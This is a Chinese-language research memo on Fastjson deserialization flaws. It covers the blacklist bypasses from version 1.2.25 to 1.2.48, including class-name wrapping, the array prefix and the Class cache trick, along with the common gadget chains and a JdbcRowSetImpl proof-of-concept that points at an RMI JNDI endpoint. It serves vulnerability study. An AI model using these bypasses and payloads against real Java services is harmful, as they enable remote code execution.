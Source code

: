 # FastJson

FastJson是阿⾥巴巴的开源JSON解析库,它可以解析JSON格式的字符串,⽀持将Java Bean序列化为JSON字符串,也可以从JSON字符串反序列化到Java Bean.

## memo

fastjson在反序列化实例化对象时可以分为两种情况:

- 目标类有默认无参构造函数->反射实例化->收集getter/setter方法并反射调用赋值

- 只有有参构造函数的情况->选择参数最多的构造函数->提取构造函数的方法名->后续再json字符中提取构造函数的参数

这两个构造函数的属性对应JavaBeanInfo的defaultConstructor和creatorConstructor.

fastjson优先选择默认无参构造函数,有无参构造会直接返回.

对于有参构造的参数,会生成对应参数class的com.alibaba.fastjson.util.FieldInfo对象

后续会通过FieldInfo进行反射赋值


### 复现失败的问题

fastjson在通过带参构造函数进行反序列化时,会检查有参构造的参数个数,并通过文件流读取class文件提取参数名,参数名用作后续匹配

而根据jdk的编译差异有情况会拿不到参数名,导致复现失败:

- openJdk的class文件根据平台不同会存在获取不到参数名的情况

- 一般第三方的jar包的类可以获取到参数名

所以在选择利用链的时候应该避免使用openjdk的class

这种情况只存在会调用有参构造的场景下

### getter和setter

匹配属性的setter的机制:

- 方法名长度大于4

- 非静态方法

- 返回值为void或者当前类

- 以set开头且第四个字母为大写

- 参数个数为1个

匹配属性的getter的机制:

- 方法名长度大于4

- 非静态方法

- 以get开头且第四个字母为大写

- 无参数传入

- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong

- 此属性没有setter方法

### 1.1.41

收集属性在DeserializeBeanInfo.computeSetters()

调用在com.alibaba.fastjson.parser.ParserConfig#createJavaBeanDeserializer()

此版本不能为没有getter/setter的属性赋值,需要额外配置DefaultJSONParser的属性extraTypeProviders

集合的值类型ExtraProcessor,需要使用者自定义实现



### 1.2.24

对于private的属性需要设置Feature.SupportNonPublicField标志,mask是131072

JSON.parse(jsonStr, 131072)

### 1.2.25-1.2.41

ParserConfig增加autoTypeSupport属性开启支持自省模式的反序列化

checkautoType()f方法实行内置黑名单拦截

可以利用TypeUtils.loadClass的处理机制,在class名首尾添加L和; 进行逃过黑名单,前提是autoTypeSupport为true.

### 1.2.42

修改黑名单机制,改为类名hash值匹配

hash对应类名的github:https://github.com/LeadroyaL/fastjson-blacklist

并且check之前对类名的首尾删除一个字符

可以通过在首尾添加LL和;; 即添加两个来进行绕过,TypeUtils.loadClass的机制不变

### 1.2.43

在原有防御机制之上,增加对LLxxxxxxx类型的类名进行匹配,匹配上抛异常.

还是利用TypeUtils.loadClass的机制,在类名前添加`[` 表示要反序列化的对象是数组

这就导致后续选择ObjectDeserializer解析器是会走到对Array类的解析器,而不是以往javaBean解析器

所以要修改字符串的元素分隔符的逗号, 改为数组的`[{`才不会报错

### 1.2.44-1.2.45

直接对`[`开头的类名匹配,抛异常, 已经无法绕过黑名单

转为发现新的利用链:

org.apache.ibatis.datasource.jndi.JndiDataSourceFactory

### 1.2.46-1.2.47

完善黑名单,增加org.apache.ibatis的hash

利用缓存机制:

{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}

可以将类放入缓存,后续再checkautoType()内可以直接从TypeUtils的缓存mapping拿到类对象

也不在考虑ParserConfig.autoTypeSupport属性的影响

### 1.2.48

将java.lang.Class的hash加入黑名单

并且在 MiscCodec 处理 Class 类的地方，设置了cache 为 false

将TypeUtils.loadClass的重载函数的默认缓存开关设置为false



### 

## 反序列化入口



## 利用链

常见的利用链有三个: 

- com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
- com.sun.rowset.JdbcRowSetImpl
- org.apache.tomcat.dbcp.dbcp2.BasicDataSource

第一个`TemplatesImpl`常规的加载java字节码的执行,需要目标主机在反序列化是传入`Feature.SupportNonPublicField`选项,才能对private属性进行赋值

第二个`JdbcRowSetImpl`用到jndi外联,利用条件比较低,需要目标主机可以访问恶意jndi服务器

```java
public static void main(String[] args) {
 String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
```

第三个`BasicDataSource`也是一种加载字节码的利用链,但是不需要传递额外的参数选项,也不需要目标主机联网

### BCEL ClassLoader

`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

`com.sun.org.apache.bcel.internal.util.ClassLoader`


## 修复

官方在1.2.25版本中新增了 `autoTypeSupport` 反序列化选项，并通过 `checkAutoType` 函数对加载类进⾏⿊⽩名单过滤和断。
